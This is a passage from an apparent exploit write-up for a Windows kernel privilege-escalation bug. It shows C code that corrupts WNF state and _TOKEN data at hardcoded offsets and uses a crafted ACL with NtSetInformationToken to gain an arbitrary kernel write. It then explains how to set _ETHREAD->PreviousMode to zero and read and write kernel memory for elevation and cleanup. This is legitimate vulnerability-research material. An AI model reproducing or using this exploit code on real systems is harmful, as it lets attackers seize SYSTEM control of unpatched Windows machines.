Write Primitive:

```
CorruptionData = (PCHAR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, OriginalSize);
    CopyMemory(CorruptionData, gOccupyWorkerToken, OriginalSize);

    *(PUINT64)(CorruptionData + TokenOffset - 0x30) = 2;
    *(PUINT64)(CorruptionData + TokenOffset + 0x8c) = 0x10000;

    *(PUINT64)(CorruptionData + TokenOffset + 0xa8) = (UINT64)pETHREAD + 0x1f0;
    *(PUINT64)(CorruptionData + TokenOffset + 0xb0) = (UINT64)pETHREAD + 0x1e8;
    *(PUINT64)(CorruptionData + TokenOffset + 0xb8) = (UINT64)0;
    fNtUpdateWnfStateData(&gWorkerStateName, CorruptionData, OriginalSize, &TypeID, NULL, NULL, NULL);// ===> control manager object

    pACL = (PACL)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0x48);
    pACL->AclRevision = 2;
    pACL->AceCount = 1;
    pACL->AclSize = 0x48;

    pACE = (PACE_HEADER)(pACL + 1);
    pACE->AceSize = 0x48 - sizeof(ACL);
    pACE->AceType = 50;
    *(PUINT64)((ULONG_PTR)pACL + 0x18) = (UINT64)pQueueListEntryFlink;
    *(PUINT64)((ULONG_PTR)pACL + 0x20) = (UINT64)pQueueListEntryBlink;
    *(PUINT64)((ULONG_PTR)pACL + 0x28) = (UINT64)pNextProcessor;
    *(PUINT64)((ULONG_PTR)pACL + 0x30) = (UINT64)pProcess;
    *(PUINT64)((ULONG_PTR)pACL + 0x38) = 0x3;
    *(PUINT64)((ULONG_PTR)pACL + 0x40) = 0x0100000008000000;
  // ===>  arbitrary write
    Status = fNtSetInformationToken(
        TokenHandle,
        TokenDefaultDacl,
        &pACL,
        8);
```

Stage 4: Elevation of privilege and Fix up
------------------------------------------

We gain arbitrary address r/w primitive, at first, I just want to replace the process TOKEN to system, it succeed, but after while, I find it's easy to crash. For example, I corrupt some _TOKEN objects, if I open processexplorer, it will travesal user space handle table for every process, it will cause crash when processexplorer access the exploite process handle table.

I need to fix up after exploit, so I decide not replace the process TOKEN, and just modify the _ETHREAD->PreviousMode, if I set previous mode to 0, I inovke NT API such as NtReadVirtualMemory and NtWriteVirtualMemory, kernel will think the thread is running in kernel mode. This is a common technology to elevate privilege, it's convenient to me for elevating of privilege and fixing instead of construct fake object every time.

Finally I use worker object to set _ETHREAD->PreviousMode to 0, and then use NtReadVirtualMemory/NtWriteVirtuaMemory to do elevation of privilege and fix up.
